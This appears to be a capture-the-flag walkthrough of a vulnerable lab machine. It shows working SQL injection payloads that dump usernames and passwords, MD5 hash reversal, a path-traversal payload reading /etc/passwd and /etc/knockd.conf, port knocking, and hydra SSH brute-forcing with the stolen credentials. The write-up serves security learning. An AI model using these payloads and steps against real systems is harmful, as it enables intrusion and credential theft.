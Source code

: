 <details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 13:42 +08
Nmap scan report for 10.0.88.33
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=80%CT=1%CU=30953%PV=Y%DS=2%DC=T%G=Y%TM=63956D
OS:DE%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)OPS(O1=M5B4S
OS:T11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M
OS:5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)T1(R
OS:=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops

TRACEROUTE (using port 199/tcp)
HOP RTT     ADDRESS
1   0.89 ms 192.168.17.1
2   1.54 ms 10.0.88.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.65 seconds
```

</details>

# 2. SQL Injection

URL: `http://<ip-address>/search.php`

<details>
  <summary><h2>1. Identify query vulnerability</h2></summary>

Legitimate input `tom`:

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com
```

</details>

<details>
  <summary><h2>2.Identify injection vector</h2></summary>

Testing `tom'` → `0 results`

Testing `tom' #` → same results as legitimate input → SQL query is susceptible to injection

</details>

<details>
  <summary><h2>3. Identify range</h2></summary>

Query: `tom' ORDER BY 7 #` → `0 results`

`ORDER BY` works until `6` and fails at `7` → data ramge is 6 columns

</details>

<details>
  <summary><h2>4. Identify data display positions</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,5,6 #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: 5
Email: 6
```

</details>

<details>
  <summary><h2>5. Retrieve database/version information</h2></summary>

Query: `tom' UNION SELECT 1,2,3,DATABASE(),VERSION(),TABLE_SCHEMA FROM information_schema.TABLES #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: information_schema

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: Staff

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: users
```

Found 2 databases: `Staff` and `users`

</details>

<details>
  <summary><h2>6. Enumerate tables (from <code>Staff</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: StaffDetails

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: Users
```

Found 2 tables: `StaffDetails` and `Users`

</details>

<details>
  <summary><h2>7. Enumerate columns (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: UserID

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Username

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Password
```

</details>

<details>
  <summary><h2>8. Retrieve data (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,UserID,Username,Password FROM Users #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 1
Phone No: admin
Email: 856f5de590ef37314e7c3bdf6f8a66dc
```

</details>

<details>
  <summary><h2>6-Again. Enumerate tables (from <code>users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='users' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: users
Email: UserDetails
```

</details>

<details>
  <summary><h2>7-Again. Enumerate columns (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: id

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: firstname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: lastname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: username

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: password

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: reg_date
```

</details>

<details>
  <summary><h2>8-Again. Retrieve data (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT id,firstname,lastname,username,password,reg_date FROM users.UserDetails #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: Mary Moe
Position: marym
Phone No: 3kfs86sfd
Email: 2019-12-29 16:58:26

ID: 2
Name: Julie Dooley
Position: julied
Phone No: 468sfdfsd2
Email: 2019-12-29 16:58:26

ID: 3
Name: Fred Flintstone
Position: fredf
Phone No: 4sfd87sfd1
Email: 2019-12-29 16:58:26

ID: 4
Name: Barney Rubble
Position: barneyr
Phone No: RocksOff
Email: 2019-12-29 16:58:26

ID: 5
Name: Tom Cat
Position: tomc
Phone No: TC&TheBoyz
Email: 2019-12-29 16:58:26

ID: 6
Name: Jerry Mouse
Position: jerrym
Phone No: B8m#48sd
Email: 2019-12-29 16:58:26

ID: 7
Name: Wilma Flintstone
Position: wilmaf
Phone No: Pebbles
Email: 2019-12-29 16:58:26

ID: 8
Name: Betty Rubble
Position: bettyr
Phone No: BamBam01
Email: 2019-12-29 16:58:26

ID: 9
Name: Chandler Bing
Position: chandlerb
Phone No: UrAG0D!
Email: 2019-12-29 16:58:26

ID: 10
Name: Joey Tribbiani
Position: joeyt
Phone No: Passw0rd
Email: 2019-12-29 16:58:26

ID: 11
Name: Rachel Green
Position: rachelg
Phone No: yN72#dsd
Email: 2019-12-29 16:58:26

ID: 12
Name: Ross Geller
Position: rossg
Phone No: ILoveRachel
Email: 2019-12-29 16:58:26

ID: 13
Name: Monica Geller
Position: monicag
Phone No: 3248dsds7s
Email: 2019-12-29 16:58:26

ID: 14
Name: Phoebe Buffay
Position: phoebeb
Phone No: smellycats
Email: 2019-12-29 16:58:26

ID: 15
Name: Scooter McScoots
Position: scoots
Phone No: YR3BVxxxw87
Email: 2019-12-29 16:58:26

ID: 16
Name: Donald Trump
Position: janitor
Phone No: Ilovepeepee
Email: 2019-12-29 16:58:26

ID: 17
Name: Scott Morrison
Position: janitor2
Phone No: Hawaii-Five-0
Email: 2019-12-29 16:58:28
```

</details>

# 3. Getting a login to `/manage.php`

A credential was retrieved from the from `Staff.Users` table

Username: `admin`

Password: `856f5de590ef37314e7c3bdf6f8a66dc`

Attempts to crack the password hash fails because the password doesn't match even the `rockyou` wordlist

☝️ hashcat is not always the answer for cracking hashes

Thankfully, md5 is easily reversible, Googling returns several online md5 hash reversers

Trying the one at <https://md5.gromweb.com/> reveals that the password is: `transorbital1`

Logging in with the credentials reveals a curious `File does not exist` error at the page footer:

![image](https://user-images.githubusercontent.com/90442032/206894411-31c7f1ce-c8f4-4528-8806-bc28ef262255.png)

This suggests that the page is susceptible to some form of file inclusion

# 4. Finding the file inclusion vulnerability

Without knowing where the DocumentRoot of the target machine is at, the next step is to identify the path traversal for the file inclusion

Since this is a linux box, the `/etc/passwd` file should exist

`../` can be appended to the URL until the `/etc/passwd` file is returned

The path is ultimately found at: `http://<ip-address>/manage.php?file=../../../../etc/passwd`

![image](https://user-images.githubusercontent.com/90442032/207045621-c684edb5-f57e-45ef-9517-0bfb614c1bd6.png)

☝️ Perform repetitive tasks by capturing the request in **Burp Suite** and **Send to Repeater **

# 5. Finding the knockd.conf

Now that we gained the ability to read files on the target, the next question is what to read?

The OSCP official guide points towards [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) method to get code execution capabilities, but this doesn't seem to work here

Taking a step back, we have a list of usernames and passwords from the SQL injection that correlates to the usernames in `/etc/passwd`

But the SSH port is `filtered` → this points towarods the existence of a firewall rule that block this port

But every server needs a method of administration, how would administration be done if SSH is blocked? → this points towarods the existence of [port-knock server](https://manpages.debian.org/bullseye/knockd/knockd.1.en.html)

Let's check for the default knockd configuration file at `/etc/knockd.conf`

![image](https://user-images.githubusercontent.com/90442032/207047786-a7bb3104-1d3a-4140-9a2b-5ba0bf41c227.png)

Bingo! The port knock sequence is `7469 8475 9842`

# 6. Looking for SSH logins

Store the lists of usernames and passwords in `usernames.txt` and `passwords.txt` respectively

The combined use of `knock` and `hydra` found 3 functional logins to SSH

```console
┌──(root㉿kali)-[~]
└─# knock 10.0.88.33 7469 8475 9842

┌──(root㉿kali)-[~]
└─# hydra -L users.txt -P passwords.txt ssh://10.0.88.33 -V -t 10
⋮
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-12 20:14:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 289 login tries (l:17/p:17), ~29 tries per task
[DATA] attacking ssh://10.0.88.33:22/
⋮
[22][ssh] host: 10.0.88.33   login: chandlerb   password: UrAG0D!
⋮
[22][ssh] host: 10.0.88.33   login: joeyt   password: Passw0rd
⋮
[22][ssh] host: 10.0.88.33   login: janitor   password: Ilovepeepee
⋮
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-12 20:15:43
```

# 7. Looking for more interesting files

The profile for `chandlerb` and `joeyt` didn't reveal much, but passwords list file was found in the profile of `janitor`

<details>
  <summary><code>.secrets-for-putin/passwords-found-on-post-it-notes.txt</code></summary>

```console
janitor@dc-9:~$ ls -lRa ~/
/home/janitor/:
total 16
drwx------  4 janitor janitor 4096 Dec 12 22:15 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Dec 12 22:15 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin

/home/janitor/.gnupg:
total 12
drwx------ 3 janitor janitor 4096 Dec 12 22:15 .
drwx------ 4 janitor janitor 4096 Dec 12 22:15 ..
drwx------ 2 janitor janitor 4096 Dec 12 22:15 private-keys-v1.d

/home/janitor/.gnupg/private-keys-v1.d:
total 8
drwx------ 2 janitor janitor 4096 Dec 12 22:15 .
drwx------ 3 janitor janitor 4096 Dec 12 22:15 ..

/home/janitor/.secrets-for-putin:
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Dec 12 22:15 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~$ cat .secrets-for-putin/passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

</details>

# 8. Looking for (more) SSH logins

```console
┌──(root㉿kali)-[~]
└─# knock 10.0.88.33 7469 8475 9842

┌──(root㉿kali)-[~]
└─# hydra -L users.txt -P passwords2.txt ssh://10.0.88.33 -V -t 10
⋮
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-12 21:09:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 102 login tries (l:17/p:6), ~11 tries per task
[DATA] attacking ssh://10.0.88.33:22/
⋮
[22][ssh] host: 10.0.88.33   login: fredf   password: B4-Tru3-001
⋮
[22][ssh] host: 10.0.88.33   login: joeyt   password: Passw0rd
⋮
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-12 21:09:39
```
